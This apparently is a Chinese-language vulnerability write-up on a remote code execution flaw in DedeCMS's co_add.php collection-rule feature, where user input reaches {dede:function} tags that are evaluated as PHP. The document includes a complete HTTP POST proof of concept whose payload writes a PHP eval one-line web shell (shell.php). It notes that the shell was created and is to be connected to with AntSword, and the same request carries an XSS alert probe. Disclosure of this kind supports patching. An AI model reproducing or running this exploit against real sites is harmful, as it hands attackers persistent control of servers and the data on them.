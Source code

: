 RCE远程命令执行

路由地址： /dede/co_add.php 

可控变量：$itemconfig

$itemconfig 字符串中拼接了 {dede:function}...{/dede:function} 这类标签，内容来自用户输入的 $GLOBALS["function_".$field]；

登录页面



分析代码

 

代码解释：循环step=5的步骤中，$itemconfig = "{dede:sppage sptype=\\'$sptype\\' sptype=\\'$sptype\\' srul=\\'$srul\\' erul=\\'$erul\\'}$sppage{/dede:sppage}\r\n";  $itemconfig是生成采集规则配置字符串，其中{dede:function}...{/dede:function}是一个内置标签，官方文档和源码中都说明这个标签会 执行其中的 PHP 代码，用来在采集时调用函数或写自定义代码，采集模块调用 dedecollection.class.php 解析这段配置

require_once(DEDEINC.'/dedecollection.class.php');

 

抓取数据包，为POST提交方式，提交数据

 

修改POST数据

 

查看页面，phpifo()执行成功

 

尝试进行编写一句话木马上传

 

Poc：

POST /dede/co_add.php HTTP/1.1

Host: zm.cms

Content-Length: 1120

Cache-Control: max-age=0

Origin: http://zm.cms

Content-Type: application/x-www-form-urlencoded

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://zm.cms/dede/co_add.php

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

Cookie: PHPSESSID=r8633an1fkb7tsj85v21gn8ta4; _csrf_name_f1c32558=d94a3f92e0b389a1374a3ec3e854c0aa; _csrf_name_f1c325581BH21ANI1AGD297L1FF21LN02BGE1DNG=adee44dff7cea4ca; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=4ab7784072cbcbf3; DedeLoginTime=1752456596; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=35ff91f756cca48d; ENV_GOBACK_URL=%2Fdede%2Fco_url.php%3Fnid%3D3%26small%3D1

Connection: close

 

nid=3&channelid=1&step=5&previewurl=http%3A%2F%2Fwww.example.com&sppage=&sptype=full&srul=1&erul=5&keywordtrim=&descriptiontrim=&fields%5B%5D=title&value_title=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&match_title=%3Ctitle%3E.*%3C%2Ftitle%3E&trim_title=&function_title=&fields%5B%5D=writer&value_writer=%E6%B5%8B%E8%AF%95%E4%BD%9C%E8%80%85&match_writer=%3Cmeta+name%3D%22author%22+content%3D%22.*%22%2F%3E&trim_writer=&function_writer=&fields%5B%5D=source&value_source=%E6%BA%90%E6%96%87%E7%AB%A0&match_source=%3Cmeta+name%3D%22source%22+content%3D%22.*%22%2F%3E&trim_source=&function_source=&fields%5B%5D=pubdate&value_pubdate=2025-07-14&match_pubdate=%3Ctime%3E.*%3C%2Ftime%3E&trim_pubdate=&function_pubdate=%40me%3DGetMkTime%28%40me%29%3B&fields%5B%5D=body&value_body=%E6%AD%A4%E6%98%AF%E4%B8%80%E6%AE%B5%E6%B5%8B%E8%AF%95%E6%AD%A3%E6%96%87&match_body=%3Cdiv+id%3D%22article-content%22%3E.*%3C%2Fdiv%3E&trim_body=&function_body=file_put_contents%28%27shell.php%27%2C%27%3C%3Fphp%20eval%28%24_POST%5Bx%5D%29%3B%3F%3E%27%29&isunit_body=1&isdown_body=1&b12=%E4%BF%9D%E5%AD%98%E9%85%8D%E7%BD%AE%E5%B9%B6%E9%A2%84%E8%A7%88

 

在页面发现shell.php编写成功

 

尝试蚁剑链接：

 

 

 